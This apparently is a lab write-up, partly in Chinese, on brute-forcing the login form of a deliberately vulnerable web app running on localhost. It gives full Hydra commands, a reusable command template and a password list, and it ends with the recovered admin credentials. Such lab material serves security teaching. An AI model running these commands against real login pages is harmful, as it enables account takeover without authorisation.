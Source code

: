 # Brute force

## 觀察

觀察 URL parameters

```
http://localhost:8086/vulnerabilities/brute/?username=admin&password=123&Login=Login#
```

### 紀錄錯誤回應訊息

```
Username and/or password incorrect.
```

## 使用 Hydra 測試密碼

### Target URL
```
http://localhost:8086/vulnerabilities/brute/?username=qwe&password=123&Login=Login#
```
## Hydra options

### module: http-form-get

### 可以用 `hydra -U http-get-form` 閱讀一下 module 用法

```
hydra -U http-get-form
```

### http-form-get module syntax

```
Syntax: <url>:<form parameters>:<condition string>[:<optional>[:<optional>]
```

### path

```
/vulnerabilities/brute/?
```

### GET/POST 變數用 `^` 包住

```
:username=^USER^&password=^PASS^&Login=Login
```

### error message

```
:F=Username and/or password incorrect.
```

## brute force

### password lists

借用別人的 password list

SecLists/10-million-password-list-top-100.txt at master · danielmiessler/SecLists
[https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt)

```
hydra -V -l admin -P 10-million-password-list-top-10000.txt -s 8086 -f localhost http-form-get "/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect."
```

## Hydra snippets

```
hydra -V -l <user> -P <password file> -s <port> -f <host> <module> "/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect."
```

## Done 
```
帳號: admin
密碼: password
```

